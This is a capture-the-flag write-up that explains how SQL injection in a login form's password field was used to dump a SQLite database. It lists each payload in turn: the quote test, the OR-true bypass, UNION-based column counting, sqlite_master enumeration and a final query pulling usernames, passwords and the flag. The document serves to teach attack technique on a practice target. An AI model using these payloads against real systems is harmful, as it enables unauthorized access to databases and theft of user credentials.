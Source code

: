 This challenge has **login form**, so the first thing came up in my mind was SQL Injection at login form.  After making some checking and observation, I came up with two things: 
1. The password field is vulnerable to SQLi when I put ``1'`` into the field. The website returns SQLite3 error.
2. The injection `1' or '1'='1';` returned information and the highlight is in the flag part is which 'N/A' .Hence it can be guessed that I could find flag through dumping the table. 

The next step is finding information of that tables and its contents. 
- ``UNION SELECT`` helps figure out how many columns there are in the current table.  The syntax of the SQL statement is ``1' UNION SELECT 1;`` to check whether the table has one columns. The result shows the warning indicating that the column number is not 1. So I kept adding more numbers to check columns' number. Finally, I found that the number is 8 with input ``1' union select 1,2,3,4,5,6,7,8;``and the website returns 
-  Next, I found tables' names in the database by injecting ` 1' union select 1,2,3,4,5,6,name,8 from sqlite_master where type='table';` Since the result returned only one table, I used `limit` to read the below record. The full input is ` 3' union select 1,2,3,4,5,6,name,8 from sqlite_master where type='table' limit 1,1;`
- Finally, I found the columns names in the users table with `` 1' union select 1,2,3,4,5,6,sql,8 from sqlite_master WHERE name='users';``  This injection s for retrieving the **CREATE TABLE** statement. 

The last step is getting the information of the flag with input `1' union select username,password,avatar,age,name,title,flag,id from users where flag like 'sun%';` Since the flag starts with 'sun', I used **LIKE** to retrieving the flag quickly. 


